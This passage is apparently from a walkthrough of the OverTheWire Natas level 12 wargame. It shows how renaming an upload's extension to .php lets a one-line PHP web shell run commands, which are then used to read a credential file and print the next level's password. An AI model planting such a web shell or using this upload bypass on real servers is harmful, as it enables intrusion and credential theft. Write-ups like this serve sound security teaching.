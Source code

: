 ```php
    <input type="hidden" name="filename" value="<? print genRandomString(); ?>.jpg" />
    Choose a JPEG to upload (max 1KB):<br/>
    <input name="uploadedfile" type="file" /><br />
    <input type="submit" value="Upload File" />
    </form>
<? } ?> 
```

Upon inspection, all functions only generate random names, the interesting part starts with the `if`, with a quick analysis we can see that it:
  
  - Checks if `filename` is present in the request
    - Checks if the file size
        - Tries to move the file to it's final location
  - If the `filename` is not present, it generates a filename for the future upload and appends `.jpg` to it!

So lets try to upload a PHP script, but before, lets change that `.jpg` to `.php`, otherwise the server will try to read it as a JPEG.

```html
<input type="hidden" name="filename" value="6jhtalz54t.jpg"> 
```

Becomes (your filename is probably different):

```html
<input type="hidden" name="filename" value="6jhtalz54t.php"> 
```

Moving on to the script, we already know from experience that `passthru` lets us execute commands on the system,
we will use it with [`$_REQUEST`](https://www.php.net/manual/en/reserved.variables.request.php) in order to gain a shell like access through a query parameter.

```php
<?php echo passthru($_REQUEST["cmd"]); ?>
```

One line of PHP does the trick, no need to get fancy.
Now, when you upload your PHP you can use `cmd` to run a command and get the result displayed!

Like:
```bash
?cmd=ls # will print the directory contents
```

So our command will be the always loyal `cat /etc/natas_webpass/natas13`, 
running `http://natas12.natas.labs.overthewire.org/upload/6jhtalz54t.php?cmd=cat /etc/natas_webpass/natas13` will get you the password `jmLTY0qiPZBbaKc9341cqPQZBJv7MQbY`!

# Level 13

This challenge is the same as before however we see `For security reasons, we now only accept image files!`

Let's look into the source code:
